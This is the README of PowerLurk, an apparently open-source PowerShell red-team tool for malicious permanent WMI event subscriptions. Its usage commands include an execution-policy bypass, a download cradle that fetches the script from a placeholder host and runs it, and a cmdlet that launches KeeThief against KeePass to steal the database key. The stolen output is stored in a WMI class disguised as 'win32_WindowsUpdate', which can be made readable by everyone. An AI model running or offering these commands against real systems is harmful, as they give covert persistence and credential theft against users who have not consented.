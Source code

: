 # PowerLurk

To use PowerLurk, you must import the PowerLurk.ps1 module into your instance of PowerShell. This can be done a couple of ways:

Import locally

```PS> powershell.exe -NoP -Exec ByPass -C Import-Module c:\\temp\\PowerLurk.ps1```

Download Cradle

```PS> powershell.exe -NoP -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Get-WmiEvent"```

## Get-WmiEvent

By default, Get-WmiEvent queries WMI for all __FilterToConsumerBinding instances and associated __EventFilter, and __EventConsumer instances. 
Objects returned can be deleted by piping to Remove-WmiObject.

Return all active WMI event objects with the name 'RedTeamEvent'

```Get-WmiEvent -Name RedTeamEvent```

Delete 'RedTeamEvent' WMI event objects

```Get-WmiEvent -Name RedTeamEvent | Remove-WmiObject```

## Register-MaliciousWmiEvent

This cmdlet is the core of PowerLurk. It takes a command, script, or scriptblock as the action and a precanned trigger then creates the WMI Filter, Consumer, and FilterToConsumerBinding required for a fully functional Permanent WMI Event Subscription. A number of WMI event triggers, or filters, are preconfigured. The trigger must be specified with the -Trigger parameter. There are three consumers to choose from, PermanentCommand, PermanentScript, and LocalScriptBLock. Example usage:

Write the notepad.exe process ID to C:\temp\log.txt whenever notepad.exe starts

```Register-MaliciousWmiEvent -EventName LogNotepad -PermanentCommand “cmd.exe /c echo %ProcessId% >> c:\\temp\\log.txt” -Trigger ProcessStart -ProcessName notepad.exe```

Cleanup Malicious WMI Event

```Get-WmiEvent -Name LogNotepad | Remove-WmiObject```

## Add-KeeThiefLurker

creates a permanent WMI event that will execute KeeThief (See @Harmj0y's KeeThief at https://github.com/adaptivethreat/KeeThief) 4 minutes after the 'keepass' process starts. This gives the target time to log into their KeePass database. 

The KeeThief logic and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated switches; however, this is optional as
defaults are set. Example usage:

Add KeeThiefLurker event using WMI class storage 

```Add-KeeThiefLurker -EventName KeeThief -WMI```

Query custom WMI class

```Get-WmiObject -Namespace root\software win32_WindowsUpdate -List```

Extract KeeThief output from WMI class

```[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($(Get-WmiObject -Namespace root\software win32_WindowsUpdate -List).Properties['Output'].value))```

Cleanup KeeThiefLurker

```Remove-KeeThiefLurker -EventName KeeThief -WMI```
